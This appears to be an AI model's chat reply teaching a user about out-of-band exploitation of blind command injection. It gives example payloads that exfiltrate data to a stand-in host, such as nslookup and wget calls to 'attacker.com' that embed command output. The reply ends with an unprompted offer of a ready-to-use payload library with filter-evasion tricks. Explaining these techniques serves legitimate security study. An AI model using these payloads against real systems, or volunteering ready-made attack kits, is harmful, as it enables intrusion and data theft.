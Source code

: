 Alright Ali — let’s go through **Out-of-Band (OOB) techniques** in a clear, general way, so you can understand them both in a **network/security** sense and in the **vulnerability exploitation** context.

---

## 🛠 What “Out-of-Band” Means in General

**Out-of-Band** simply means:

> Using a **separate channel** from the main one to send or receive information.

- In **networking/management** : OOB is a dedicated path for control or monitoring that’s separate from the normal data traffic.
- In **security testing/exploitation** : OOB is a way to get results or exfiltrate data **without** the vulnerable application returning it directly in the HTTP response.

---

## 🔍 Why OOB Matters in Security Testing

Some vulnerabilities are **blind** — you can trigger them, but you don’t see the output in the web/app response.

Example: Blind SQL Injection, Blind Command Injection, SSRF.

OOB techniques let you:

- **Confirm** the vulnerability exists.
- **Extract data** indirectly.
- **Bypass** output restrictions.

---

## 📦 How OOB Works in Exploitation

1. **Trigger** : You send a payload that forces the target to make an outbound request (DNS, HTTP, FTP, etc.).
2. **Callback** : That request goes to a server you control.
3. **Observation** : You monitor your server logs to confirm the request happened.
4. **Data Exfiltration** : You encode sensitive data into the outbound request (e.g., in a DNS query).

---

## 🌐 Common OOB Channels

| Channel                      | How It’s Used                                                | Advantages                                       | Limitations                             |
| ---------------------------- | ------------------------------------------------------------ | ------------------------------------------------ | --------------------------------------- |
| **DNS**                      | Target resolves a domain you control (`abc.yourdomain.com`). | Works even when HTTP blocked; often allowed out. | Limited data size per query.            |
| **HTTP/HTTPS**               | Target makes a web request to your server.                   | Easy to log; can carry more data.                | May be blocked by firewalls.            |
| **FTP/SMTP/Other Protocols** | Target connects via other services.                          | Useful if DNS/HTTP blocked.                      | Often blocked outbound.                 |
| **ICMP (Ping)**              | Target pings your server.                                    | Works in some restricted networks.               | Often blocked in hardened environments. |

---

## 🧪 Example in Blind Command Injection

If you can run commands but don’t see output:

```bash
; nslookup $(whoami).attacker.com
```

- The target will try to resolve `username.attacker.com`.
- Your DNS server logs the request, revealing the username.

---

## 🏆 Advantages of OOB Techniques

- **Bypass Output Restrictions** : No need for direct response from the app.
- **Stealth** : Can be less obvious in logs than inline exploitation.
- **Works in Blind Scenarios** : Confirms vulnerabilities that don’t return data.
- **Flexible Channels** : Multiple protocols to try depending on firewall rules.

---

## ⚠️ Key Considerations

- **Egress Filtering** : Success depends on what outbound traffic is allowed.
- **Infrastructure** : You need a controlled server/domain to receive callbacks.
- **Encoding** : Data often needs to be encoded (Base32/Base64/hex) to fit into DNS or URL-safe formats.

---

## 📌 The Scenario

The snippet shows a **blind command injection** case.

- **Blind** means: you can run commands on the target, but you **don’t see the output** in the application’s normal HTTP response.
- The attacker needs another way to get proof of execution or to exfiltrate data.

---

## 🛠 The Technique in the Example

The payloads shown are:

```
wget https://attacker.com/108
wget https://attacker.com/109
wget https://attacker.com/110
wget https://attacker.com/111
```

Here’s what’s going on:

1. **`wget`** is a command-line tool that makes HTTP requests to download files.
2. The attacker injects these commands into the vulnerable application.
3. When the vulnerable server runs them, it **initiates outbound HTTP requests** to `attacker.com`.
4. The attacker controls `attacker.com` and can see these requests in their server logs.

---

## 🔍 Why the Numbers (`108`, `109`, etc.)?

Those path segments can be used to:

- **Send data** : Each number could represent a piece of information (e.g., ASCII codes for characters from `/etc/passwd`).
- **Confirm execution** : Different endpoints let the attacker know which part of the payload ran.
- **Chunk exfiltration** : Large data can be split into multiple small requests.

Example:

If the attacker runs:

```
wget https://attacker.com/$(id -u)
```

and the server’s user ID is `108`, the attacker’s logs will show a request to `/108`.

---

## 🌐 Why This is “Out-of-Band”

- **Normal channel** : User → Web App → HTTP Response back to user.
- **OOB channel** : Vulnerable server → Outbound HTTP request → Attacker’s server.

The attacker never needs the vulnerable app to return the data in its own response — the data travels over a **separate network path** .

---

## 🏆 Advantages of This Method

- **Works in blind scenarios** : No need for direct output in the app.
- **Firewall evasion** : Outbound HTTP/HTTPS is often allowed.
- **Stealth** : The malicious activity may not appear in the app’s normal logs.
- **Flexible** : Can use HTTP, DNS, FTP, ICMP, etc., depending on what’s allowed.

---

## ⚠️ Limitations

- **Outbound restrictions** : If the target blocks outbound HTTP/DNS, this won’t work.
- **Detection** : Security teams can spot unusual outbound requests.
- **Speed** : Chunked exfiltration can be slow.

---

## 🧪 How This Fits in a Real Attack

1. **Find** a command injection point.
2. **Test** with a harmless OOB payload (e.g., `wget https://attacker.com/test`) to confirm execution.
3. **Exfiltrate** data by embedding it in the request path or query string.
4. **Reassemble** the data from your server logs.

---

Ali — if you want, I can now give you a **full OOB Command Injection Payload Library** with:

- Linux & Windows variations
- DNS-based exfiltration
- HTTP-based exfiltration
- Encoding tricks for bypassing filters

That would give you a ready-to-use reference for pentesting blind vulnerabilities.

Do you want me to prepare that next?

---
